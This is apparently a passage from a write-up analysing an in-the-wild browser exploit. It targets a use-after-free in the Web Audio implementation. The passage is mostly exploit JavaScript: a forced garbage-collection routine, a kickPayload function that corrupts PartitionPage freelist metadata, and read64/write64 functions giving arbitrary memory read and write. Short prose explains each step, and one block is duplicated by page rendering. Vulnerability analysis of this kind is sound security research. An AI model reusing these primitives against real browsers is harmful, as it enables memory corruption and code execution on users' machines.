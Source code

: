 function collectGargabe() { let promise = new Promise(function(cb) {    		let arg;    		for (let i = 0; i < 400; i++)        		new ArrayBuffer(1024 * 1024 * 60).buffer;    		cb(arg); }); return promise;}




After those steps, the exploit executes the function kickPayload() passing the previously created BigUint64Array containing the raw pointer address of the previously freed AudioArray’s data.





async function kickPayload(auxArray) {
	let audioCtx = new OfflineAudioContext(1, 1, 3000);
	let partitionPagePtr = getPartitionPageMetadataArea(byteSwapBigInt(auxArray[0]));
	auxArray[0] = byteSwapBigInt(partitionPagePtr);
	let i = 0;
	do {
    		gcPreventer.push(new ArrayBuffer(8));
    		if (++i > 0x100000)
        		return;
	} while (auxArray[0] != BigInt(0));
	let freelist = new BigUint64Array(new ArrayBuffer(8));
	gcPreventer.push(freelist);
	...




12345678910111213

async function kickPayload(auxArray) { let audioCtx = new OfflineAudioContext(1, 1, 3000); let partitionPagePtr = getPartitionPageMetadataArea(byteSwapBigInt(auxArray[0])); auxArray[0] = byteSwapBigInt(partitionPagePtr); let i = 0; do {    		gcPreventer.push(new ArrayBuffer(8));    		if (++i > 0x100000)        		return; } while (auxArray[0] != BigInt(0)); let freelist = new BigUint64Array(new ArrayBuffer(8)); gcPreventer.push(freelist); ...




The exploit manipulates the PartitionPage metadata of the freed object to achieve the following behavior. If the address of another object is written in BigUint64Array at index zero and if a new 8-byte object is created and the value located at index 0 is read back, then a value located at the previously set address will be read. If something is written at index 0 at this stage, then this value will be written to the previously set address instead.





function read64(rwHelper, addr) {
	rwHelper[0] = addr;
	var tmp = new BigUint64Array;
	tmp.buffer;
	gcPreventer.push(tmp);
	return byteSwapBigInt(rwHelper[0]);
}
 
function write64(rwHelper, addr, value) {
	rwHelper[0] = addr;
	var tmp = new BigUint64Array(1);
	tmp.buffer;
	tmp[0] = value;
	gcPreventer.push(tmp);
}
